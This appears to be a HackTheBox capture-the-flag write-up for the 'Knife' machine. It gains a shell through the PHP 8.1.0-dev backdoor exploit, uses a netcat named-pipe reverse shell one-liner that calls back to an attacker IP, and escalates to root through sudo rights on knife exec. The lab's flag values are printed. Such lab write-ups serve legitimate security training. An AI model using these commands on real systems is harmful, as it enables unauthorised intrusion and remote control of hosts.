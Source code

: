 ```yaml
---
layout: post
title: "Knife Writeup - HackTheBox"
category: HackTheBox
---
```


# HTB lab Machine - Knife

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/10.129.134.5 folder that I have attached to this post.

## Enumeration summary

```
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)

80/tcp open  Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
Summary   : Script, HTML5, Apache[2.4.41], PHP[8.1.0-dev], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], X-Powered-By[PHP/8.1.0-dev]
```

## Exploitation

Found these CVE’s but I gotta enumerate a bit more in order to exploit them:

```
https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce/php/sid-4487
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9841
```

I did not get anywhere with these. I started this machine when it was first released, though after a while I gave up. cam back later when google had some decent exploit results for me: https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html

This should be easy:

```
┌──(kali㉿kali)-[~/Desktop/DownloadedScripts]
└─$ python3 exp.py -u http://10.129.42.93/ -c whoami
[+] Results:
james

┌──(kali㉿kali)-[~/Desktop/DownloadedScripts]
└─$ python3 exp.py -u http://10.129.42.93/ -c ls
[+] Results:
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

```

This exploit was part of a recent backdoor placed in the PHP Git repo:https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

```
┌──(kali㉿kali)-[~/Desktop/DownloadedScripts]
└─$ python3 exp.py -u http://10.129.42.93/ -c "rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 4444 >/tmp/f"
```

```
──(kali㉿kali)-[~/Desktop/DownloadedScripts]
└─$ nc -lvp 4444                                                                                                   1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.32] from 10.129.42.93 [10.129.42.93] 52488
/bin/sh: 0: can't access tty; job control turned off
$ dir
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
$ cd home
$ dir
james
$ cd james
$ dir
user.txt
$ cat user.txt
d2159cda23135f4b5f65af8bd0fbe1b3

```

Privesc time:

```
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```

If you do `sudo /usr/bin/knife`:

```
** EXEC COMMANDS **
knife exec [SCRIPT] (options)

```

```
$ echo 'system("whoami")' > test.sh
$ cat test.sh
system("whoami")
$ mv test.sh test.rb
$ sudo /usr/bin/knife exec test.rb
root
$

```

I thought it was sh at first. But I got some ruby errors, so I tried ruby and it worked.

```
$ echo system("whoami") > test.sh
/bin/sh: 5: Syntax error: "(" unexpected
$ echo 'system("whoami")' > test.sh
$ cat test.sh
system("whoami")
$ mv test.sh test.rb
$ sudo /usr/bin/knife exec test.rb
root
$ echo system("cat /root/root.txt") > test.rb
/bin/sh: 9: Syntax error: "(" unexpected
$ echo 'system("cat /root/root.txt")' > test.rb
$ sudo /usr/bin/knife exec test.rb
5656d576beeb308cd9c5b362bd4b2962
$

```

## Final thoughts

If the exploit was a little more known when I started this box, I would have got it instantly. This is a very easy 20 pointer.
